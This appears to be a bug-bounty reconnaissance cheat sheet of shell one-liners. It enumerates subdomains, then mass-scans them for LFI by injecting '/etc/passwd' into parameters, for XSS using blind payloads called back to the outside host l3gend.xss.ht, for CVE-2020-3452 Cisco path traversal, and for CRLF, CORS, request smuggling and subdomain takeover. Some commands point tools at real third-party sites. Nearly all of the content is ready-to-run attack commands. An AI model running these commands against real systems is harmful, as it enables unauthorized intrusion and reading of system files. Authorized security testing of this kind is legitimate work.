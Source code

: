# Method 1

## domains

cat wildcards.txt | assetfinder -subs-only | anew domains

amass enum -df wildcards.txt | anew domains

subfinder -silent -dL wildcards.txt| anew domains

## one liners and tools

sort -u domains | httprobe > uniq.txt

crlfuzz -l uniq.txt -s

gau uniq.txt | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'

cat uniq.txt |waybackurls | gf xss | sed 's/=.*/=/' | sort -u | tee FILE.txt && cat FILE.txt | dalfox -b l3gend.xss.ht pipe > OUT.txt

python3 ~/tools/Corsy/corsy.py -i uniq.txt 

python3 ~/tools/XSStrike/xsstrike.py -u "https://www.glassdoor.com/rss/interviews.rss?id=lol" 

python3 ~/tools/smuggler/smuggler.py -u "https://google.com" -m GET -q

python3 ~/tools/mass-bounty/CRLF-Injection-Scanner/crlf_scan.py -i uniq.txt

        * CVE-2020-3452
        
while read LINE; do curl -s -k "https://$LINE/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../" | head | grep -q "Cisco" && echo -e "[${GREEN}VULNERABLE${NC}] $LINE" || echo -e "[${RED}NOT VULNERABLE${NC}] $LINE"; done < domains
 
cat uniq.txt | while read h do; do curl -sk "$h/module/?module=admin%2Fmodules%2Fmanage&id=test%22+onmousemove%3dalert(1)+xx=%22test&from_url=x"|grep -qs "onmouse" && echo "$h: VULNERABLE"; done

cat domains | gau | egrep -v '(.css|.png|.jpeg|.jpg|.svg|.gif|.wolf)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Zo-9_]+" | sed -e 's, 'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'):echo -e "\e[1;33m$url\n" "\e[1;32m$vars"; done 

subzy -targets domains -hide_fails


## Heavy 

eyewitness --web -f uniq.txt -d /path_to_save_screenshots ##### optional , takes time, better grep for juicy domains and move forward

```bash
for I in $(ls); do 
        echo "$I" >> index.html;
        echo "<img src=$I><br>" >> index.html;
done
```

## dalfox

python3 ~/tools/ParamSpider/paramspider.py --domain google.com -o param.txt

dalfox -b l3gend.xss.ht file param.txt
